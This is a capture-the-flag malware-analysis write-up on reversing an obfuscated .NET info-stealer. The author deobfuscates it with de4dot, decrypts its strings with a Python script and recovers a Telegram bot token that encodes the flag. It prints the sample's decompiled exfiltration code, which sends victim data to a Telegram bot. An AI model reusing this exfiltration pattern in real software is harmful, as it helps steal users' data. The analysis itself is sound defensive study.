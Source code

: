 # stealer
### Overview

The task involved reverse engineering a `.Net 32-bit` executable named `snake.mal`. The primary objective was to analyze the executable, identify its functionality, and decode any hidden or encrypted data within the file. The reversing process was conducted using dnspy for decompiling the executable, and `de4dot` for deobfuscation and a custom python script to decrypt strings used by the malware.

### Initial Analysis

Upon opening `snake.mal.exe` in a dnSpy, it was evident that the executable was heavily obfuscated. The functions and classes were renamed to nonsensical names, making manual analysis difficult.

![image](https://github.com/user-attachments/assets/c7aade9d-9670-4ff0-97c2-2c966c68a8a4)


To proceed with the analysis, `de4dot` was employed to clean the obfuscated code. Running the tool produced a cleaned version of the executable, where the obfuscated symbols were renamed to more readable forms, significantly easing the analysis process.

```jsx
C:\Users\mahmoud\Desktop> C:\Tools\de4dot\de4dot.exe snake.mal

de4dot v3.1.41592.3405 Copyright (C) 2011-2015 de4dot@gmail.com
Latest version and source code: https://github.com/0xd4d/de4dot

Detected Unknown Obfuscator (C:\Users\mahmoud\Desktop\snake\snake.mal)
Cleaning C:\Users\mahmoud\Desktop\snake\snake.mal
Renaming all obfuscated symbols
Saving C:\Users\mahmoud\Desktop\snake\snake-cleaned.mal
```

![image](https://github.com/user-attachments/assets/34de0158-f1ff-491b-8a49-4417c771aee0)


With the code now more readable, we can delve into its functionality.

Found some functions that provide clear evidence that the malware is stealing data.

![image](https://github.com/user-attachments/assets/f641cca3-ed1a-44ba-8e0d-c40b52f98074)


Other numerous functions have been identified that appear to interact with Telegram.

![image](https://github.com/user-attachments/assets/893047fe-11d4-4aca-885b-fd511b1540e3)


If we examine the methods from the previous screenshot, several of them call a function named `smethod_16`, each passing different encrypted strings to it.



The `smethod_16` function is a decryption method, which utilized DES encryption with a key derived from an MD5 hash. 

![image](https://github.com/user-attachments/assets/d486e355-593a-49b9-9429-542bed21440c)

### Decrypting Strings

Wrote Python script to replicate this decryption process:

```jsx
import base64
from Crypto.Cipher import DES
from Crypto.Hash import MD5

def smethod_16(encrypted_string, key):
    try:
        des = DES.new(MD5.new(key.encode()).digest()[:8], DES.MODE_ECB)
        decrypted_bytes = des.decrypt(base64.b64decode(encrypted_string))
        decrypted_string = decrypted_bytes.decode()
        return decrypted_string
    except Exception as e:
        print(f"Error decrypting string: {e}")
        return None
    
```
### Results of Decryption

By applying the Python script to the encrypted strings, the following results were obtained:

```jsx
print(smethod_16("zMaRPCbE0Gb4k/zB6ZNS3r1L34TENqMZD9RW6hkhoOE=", "nnrCOnrJyiwsACMwnkEJB"))
# result "https://api.telegram.org/bot"

print(smethod_16("FphMdFa3hOQv6jbOo+Di/krf6/KeCXcASv1A0PTZtTaqOQqu46FvhqM0pdqb8g0/", "BsrOkyiChvpfhAkipZAxnnChkMGkLnAiZhGMyrnJfULiDGkfTkrTELinhfkLkJrkDExMvkEUCxUkUGr"))
# result "7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9"
```
These strings were used to construct a Telegram API request:

```jsx
			ServicePointManager.Expect100Continue = false;
			ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
			string text2 = string.Concat(new string[]
			{
				https://api.telegram.org/bot,
				7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9,
				/sendDocument?chat_id=,
				5481237002,
				"&caption=",
				string.Concat(new string[]
				{
					" Pc Name: ",
					Environment.UserName,
					" | Snake Tracker\r\n\r\nPW | ",
					Environment.UserName,
					" | Snake\r\n\r\n\r\n"
				})
			});
```

Given our understanding of the Telegram API, these strings are parameters used to communicate with a Telegram bot. This suggests that the malware is designed to steal data and then use the bot to upload that data.

### Getting The Flag

To obtain the flag, all we needed to do was decode the bot token, which revealed the flag.

```jsx
$ echo QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9 | base64 -d           
BHFlagY{t3legr4m_g0es_w!ld} 
```
